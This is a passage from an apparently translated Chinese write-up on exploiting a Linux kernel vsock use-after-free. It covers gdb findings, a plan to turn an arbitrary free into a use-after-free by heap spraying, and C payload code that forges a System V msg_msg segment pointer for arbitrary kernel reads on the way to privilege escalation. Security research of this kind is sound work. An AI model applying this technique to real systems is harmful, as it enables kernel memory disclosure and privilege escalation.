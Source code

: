 ```
  virtio_transport_notify_buffer_size+0x60/0x70 [vmw_vsock_virtio_transport_common]
  vsock_update_buffer_size+0x5f/0x70 [vsock]
  vsock_stream_setsockopt+0x128/0x270 [vsock]
...
```

通过`gdb`调试，发现`RCX`寄存器包含了释放的`virtio_vsock_sock`的内核地址，`RBX`寄存器包含了`vsock_sock`的内核地址。



## 0x07 实现任意读

### <a class="reference-link" name="%E4%BB%8E%20arbitrary%20free%20%E5%88%B0%20use-after-free"></a>从 arbitrary free 到 use-after-free
1. 从泄露的内核地址释放一个对象
1. 执行堆喷，用受控数据覆盖该对象
1. 使用损坏的对象进行权限升级
内核实现的System V消息有限制最大值`DATALEN_MSG`，即`PAGE_SIZE`减去`sizeof(struct msg_msg))`。如果你发送了更大的消息，剩余的消息会被保存在消息段的列表中。`msg_msg`中包含`struct msg_msgseg *next`用于指向第一个段，`size_t m_ts`用于存储大小。当进行覆盖操作时，就可以把受控的值放在`msg_msg.m_ts`和`msg_msg.next`中：

[![](https://p4.ssl.qhimg.com/t01a51dfe7a996e854c.png)](https://p4.ssl.qhimg.com/t01a51dfe7a996e854c.png)

payload如下:

```
#define PAYLOAD_SZ 40 
    void adapt_xattr_vs_sysv_msg_spray(unsigned long kaddr)
    `{`
        struct msg_msg *msg_ptr;

        xattr_addr = spray_data + PAGE_SIZE * 4 - PAYLOAD_SZ;

        /* Don't touch the second part to avoid breaking page fault delivery */
        memset(spray_data, 0xa5, PAGE_SIZE * 4);

        printf("[+] adapt the msg_msg spraying payload:\n");
        msg_ptr = (struct msg_msg *)xattr_addr;
        msg_ptr-&gt;m_type = 0x1337;
        msg_ptr-&gt;m_ts = ARB_READ_SZ;
        msg_ptr-&gt;next = (struct msg_msgseg *)kaddr; /* set the segment ptr for arbitrary read */
        printf("\tmsg_ptr %p\n\tm_type %lx at %p\n\tm_ts %zu at %p\n\tmsgseg next %p at %p\n",
               msg_ptr,
               msg_ptr-&gt;m_type, &amp;(msg_ptr-&gt;m_type),
               msg_ptr-&gt;m_ts, &amp;(msg_ptr-&gt;m_ts),
               msg_ptr-&gt;next, &amp;(msg_ptr-&gt;next));
    `}`
```

但是如何使用`msg_msg`读取内核数据呢？通过阅读`msgrcv()`系统调用[文档](https://man7.org/linux/man-pages/man2/msgrcv.2.html)，我找到了好解决方案，使用`msgrcv()`和`MSG`标志：
